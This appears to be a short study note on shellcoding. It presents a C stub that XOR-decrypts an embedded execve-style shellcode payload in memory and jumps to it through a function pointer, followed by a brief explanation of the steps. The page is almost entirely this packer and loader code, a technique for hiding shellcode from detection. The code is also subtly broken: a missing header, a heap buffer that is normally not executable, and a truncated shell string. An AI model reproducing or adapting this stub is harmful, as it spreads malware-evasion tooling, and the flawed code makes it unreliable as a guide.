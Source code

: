 #shellcoding 


---


**XOR-packed stub in C**

```
#include <stdio.h>
#include <stdint.h>
#include <string.h>

// XOR key
#define KEY 0xAA

// Encrypted payload (XOR'd version of the original shellcode/message)
uint8_t encrypted_payload[] = {
    0xEB ^ KEY, 0x1E ^ KEY, 0x5E ^ KEY, 0x31 ^ KEY, 0xC0 ^ KEY,
    0x88 ^ KEY, 0x46 ^ KEY, 0x0A ^ KEY, 0x88 ^ KEY, 0x46 ^ KEY,
    0x0B ^ KEY, 0xB0 ^ KEY, 0x0B ^ KEY, 0x89 ^ KEY, 0xF3 ^ KEY,
    0x8D ^ KEY, 0x4E ^ KEY, 0x0A ^ KEY, 0x8D ^ KEY, 0x56 ^ KEY,
    0x0B ^ KEY, 0xCD ^ KEY, 0x80 ^ KEY, 0xE8 ^ KEY, 0xDD ^ KEY,
    0xFF ^ KEY, 0xFF ^ KEY, 0xFF ^ KEY, 's' ^ KEY, 'h' ^ KEY,
    0x00 ^ KEY
};

// Decrypt and execute
int main() {
    size_t len = sizeof(encrypted_payload);
    uint8_t *payload = malloc(len);
    if (!payload) return 1;

    // Decrypt
    for (size_t i = 0; i < len; i++) {
        payload[i] = encrypted_payload[i] ^ KEY;
    }

    // Cast to function and execute
    void (*func)() = (void (*)())payload;
    func();

    free(payload);
    return 0;
}
```

---
#### How it works?

>[!important]
>
> - The payload is XOR-encrypted with a key (`0xAA`).
 >- At runtime, the stub decrypts it in memory.
> - It then casts the decrypted buffer to a function pointer and executes it.

